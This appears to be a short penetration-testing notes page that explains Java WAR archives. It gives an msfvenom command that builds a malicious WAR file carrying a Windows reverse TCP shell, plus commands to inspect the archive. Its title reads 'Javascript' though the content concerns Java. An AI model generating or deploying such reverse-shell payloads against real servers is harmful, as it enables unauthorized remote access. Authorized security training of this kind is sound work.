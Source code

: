 ```yaml
---
icon: js
---
```


# Javascript

**.WAR:**

A Web Application Resource is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

**Create Malicious WAR files:**

Windows: msfvenom

```

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 -f war > filename.war
```

**WAR files are basically ZIP files:**

```
head -c 16 filename.war | xxd
```



**Finding  JSP files:**

```
#Install
sudo apt install default-jdk

#Use jar to list content of the war file
jar tf revshell.war

#Curl .jsp file
```
